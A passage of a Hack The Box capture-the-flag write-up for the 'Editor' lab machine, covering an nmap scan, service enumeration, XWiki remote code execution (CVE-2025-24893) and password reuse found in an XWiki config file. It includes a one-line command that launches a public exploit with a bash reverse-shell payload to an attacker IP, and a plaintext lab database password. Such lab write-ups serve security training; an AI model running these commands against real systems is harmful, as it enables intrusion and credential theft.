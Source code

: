 ##
# 📝 Write-up: Editor HTB

![editor](https://www.hackthebox.com/storage/avatars/7d4a6dfe5b291cbe7b4e13e5f5c4d6c3.png)

**Difficulty:** Easy  
**Platform:** Hack The Box  
**Link:** [Editor @ HTB](https://app.hackthebox.com/machines/Editor)

---

## 🎯 Summary
Editor is an **easy Linux machine** that involves:  
- Exploiting an **XWiki RCE** (CVE-2025-24893) for initial access  
- Leveraging **password reuse** for horizontal privilege escalation  
- Abusing a **Netdata SUID binary** (CVE-2024-32019) to get root  

---

## 📋 Table of Contents
1. [Reconnaissance](#-reconnaissance)  
2. [Enumeration](#-enumeration)  
3. [Exploitation: Initial Foothold](#-exploitation-initial-foothold)  
4. [Privilege Escalation: User](#-privilege-escalation-to-user)  
5. [Privilege Escalation: Root](#-privilege-escalation-to-root)  
6. [Lessons Learned](#-lessons-learned)  
7. [References](#-references)  

---

## 🔍 Reconnaissance

Started with a **full port scan** using `nmap`:

```bash
nmap -sC -sV -oA nmap/initial 10.10.11.80


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express server)
3306/tcp open  mysql   MySQL 8.0.35-0ubuntu0.20.04.1
8000/tcp open  http    nginx 1.18.0 (Ubuntu)
9000/tcp open  http    Netdata Go.d.plugin 1.32.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
```

## 🕵️ Enumeration

### 🌐 Ports 80 / 8000 — HTTP Servers
- **Port 80** → Hosts a static page with project documentation.  
- **Port 8000** → Runs **XWiki 14.10.5**, a Java-based wiki platform.  

### ⚡ Port 3000 — Express Server
- Node.js application with login functionality.  
- Discovered **default credentials**: admin:admin

→ Grants access to project management dashboard.  

### 📊 Port 9000 — Netdata
- Running **Netdata 1.32.1** (real-time performance monitoring tool).  
- Vulnerable to **CVE-2024-32019** → SUID privilege escalation.  


## 🚀 Exploitation
###  CVE-2025-24893 - XWiki RCE
- Exploit Used: https://github.com/gunzf0x/CVE-2025-24893

 ``` bash
python3 exploit.py -t http://editor.htb:8080 -c 'bash -i >& /dev/tcp/<YOuR_IP>/4444 0>&1'
```


## 🔼 Privilege Escalation: User

### 🔑 Password Reuse

Database credentials were found in the XWiki configuration file.  

**Location:**  
``` bash 
/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml 
```

**Credentials:**
```xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>


